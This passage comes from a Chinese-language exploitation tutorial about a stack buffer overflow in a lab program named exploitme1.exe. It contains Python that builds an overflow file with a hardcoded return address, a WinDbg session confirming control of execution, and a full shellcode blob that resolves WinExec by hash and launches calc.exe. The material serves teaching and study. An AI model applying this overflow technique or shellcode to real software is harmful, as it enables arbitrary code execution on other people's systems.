     #!python
    with open('c:\\name.dat', 'wb') as f:
        ret_eip = '\x80\xa9\x10\x76'
        shellcode = '\xcc'
        name = 'a'*36 + ret_eip + shellcode
        f.write(name)
    

用WinDbg重新运行exploitme1.exe，按F5并且WinDbg将断在我们的shellcode上（0xCC是int3的操作码，调试器使用它来作为一个软件断点）：

    
    
    (1adc.1750): Break instruction exception - code 80000003 (first chance)
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\syswow64\kernel32.dll -
    eax=00000000 ebx=00000000 ecx=6d383071 edx=002e5437 esi=00000001 edi=00000000
    eip=001cfbf8 esp=001cfbf8 ebp=61616161 iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
    001cfbf8 cc              int     3
    

现在我们添加真正的shellcode：

    
    
    #!python
    with open('c:\\name.dat', 'wb') as f:
        ret_eip = '\x80\xa9\x10\x76'
        shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
            "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
            "\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
            "\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
            "\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
            "\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
            "\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
            "\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
            "\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
            "\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
            "\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
            "\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
            "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
            "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
            "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
            "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
            "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
            "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
            "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
            "\x30\x03\xc6\xeb\xdd")
        name = 'a'*36 + ret_eip + shellcode
        f.write(name)
    

通过使用如下代码来构造shellcode

    
    
    #!c++
    #define HASH_ExitThread             0x4b3153e0
    #define HASH_WinExec                0x7bb4c07f
     